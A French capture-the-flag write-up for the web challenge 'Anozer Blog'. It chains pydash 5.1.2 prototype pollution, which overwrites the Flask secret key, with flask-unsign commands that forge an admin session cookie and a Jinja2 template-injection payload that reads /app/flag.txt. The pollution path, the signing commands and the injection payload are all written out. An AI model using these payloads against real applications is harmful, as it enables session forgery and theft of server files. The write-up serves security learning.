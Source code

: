 ```yaml
---
layout: default
type: writeup
title: Anozer Blog
category: Web
point: 258
files: ["Anozer Blog.zip"]
---
```


{% raw %}
> **title:** Anozer Blog
>
> **category:** Web
>
> **difficulty:** Medium
>
> **point:** 258
>
> **author:** JeanJeanLeHaxor#4628
>
> **description:**
>
> Objective: Read the flag, situated on the server in /app/flag.txt
> 

## Solution

Le code source est donné. En regardant le fichier **`requirements.txt`** on peut déjà voir que **`pydash`** est demandé en version **`5.1.2`** spécifiquement, c'est assez étrange alors regardons s'il existe des vulnérabilités dessus.

Je suis tombé sur **[cet article](https://blog.abdulrah33m.com/prototype-pollution-in-python/)** expliquant comment polluer une variable grâce à PyDash :

![Article sur la pollution avec pydash](images/pydash.png)

Accompagné de cet exemple :

```python
pydash.set_(User(), '__class__.__init__.__globals__.not_accessible_variable','Polluted variable')
```

On peut donc changer la valeur d'une variable qui n'est pas accessible dans notre contexte grâce à la fonction **`set_`**.

Cherchons si cette fonction est utilisée :

![Recherche et utilisation de la fonction set_ de pydash](images/set_.png)

![Documentation de la fonction set_](images/docu.png)

Comment l'exploiter ? Il faut que **`article_name`** soit le **`path`** de notre variable à polluer et **`article_content`** soit notre **`value`** de pollution.

Pour arriver à cette fonction, il faut passer par la création d'un article :

![](images/create.png)

Ok, à priori on peut modifier n'importe quelle variable, mais sur laquelle le faire ?

L'objectif est de lire un fichier local, or on ne peut pas exécuter de commande via la pollution directement puisque dans notre fonction **`create_article`** on nous impose ligne 21 que **`content`** soit une string.

En cherchant un peu plus, on tombe sur cette fonction qui permet d'utiliser **`render_template_string`** si le user a la propriété **`seeTemplate`** vraie. Cette fonction permettrai de faire une **SSTI** dans Jinja et donc d'exécuter directement des commandes. 

![](images/render_page.png)

Et dans le fichier **`users.py`**, on voit qu'un compte admin est automatiquement ajouté avec cette permission.

![](images/init_user.png)

Et bien je propose de modifier le secret de la création des tokens d'authentification pour forger nos tokens et se connecter en tant qu'admin pour exécuter notre payload.

<br>

### Etape 1 : Modifier le secret

En essayant le payload que nous avons trouvé sur le site tout à l'heure ça n'a pas fonctionné, mais j'ai trouvé **[ce WriteUp](https://ctftime.org/writeup/36082)** qui propose un autre **`path`** pour accèder aux variables globales :

```python
pydash.set_(
    TaskManager(),
    '__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.xxx',
    'xxx'
)
```

On va donc essayer :

```
path:  __init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
value: myNewSecretKey
```

![](images/pollution.png)

Maintenant pour vérifier que la clé a bien été modifiée, on va créer un compte pour obtenir un token :

![](images/create_account.png)

Puis dans le devtools > Application > Cookie on récupère le token :

![](images/token.png)


Avec **[flask-unsign](https://pypi.org/project/flask-unsign/)** on décode le token :

```
> flask-unsign --decode --cookie "eyJ1c2VyIjp7InNlZVRlbXBsYXRlIjpmYWxzZSwidXNlcm5hbWUiOiJUaGF5U2FuIn19.ZF3p_g.WO5brOHD0p_cydPSxNVnA69780k"
{'user': {'seeTemplate': False, 'username': 'ThaySan'}}
```

Puis on en forge un nouveau avec le username **`admin`** et notre nouveau secret :

```
> flask-unsign --sign --cookie "{'user': {'seeTemplate': False, 'username': 'admin'}}" --secret "myNewSecretKey"
eyJ1c2VyIjp7InNlZVRlbXBsYXRlIjpmYWxzZSwidXNlcm5hbWUiOiJhZG1pbiJ9fQ.ZF3wdA.Kp-qp6YiWF1cLe5RIe9MT1-Sll0
```

On remplace notre ancien token par celui que l'on vient de forger et en allant consulter l'article **`welcome`**, on voit bien que l'on est connecté en tant qu'admin et que le template est interprété :

![](images/admin_token.png)

<br>

### Etape 2 : lire le fichier /app/flag.txt

Pour ça j'utilise **[ce CheatSheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)** sur les SSTI de Jinja2. On y trouve le payload :

```
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/app/flag.txt").read() }}
```

Il ne reste plus qu'à créé un article avec ce content :

![](images/ssti.png)

Et maintenant on consulte l'article :

![](images/flag.png)

**`FLAG : PWNME{de3P_pOL1uTi0n_cAn_B3_D3s7rUctIv3}`**

{% endraw %}

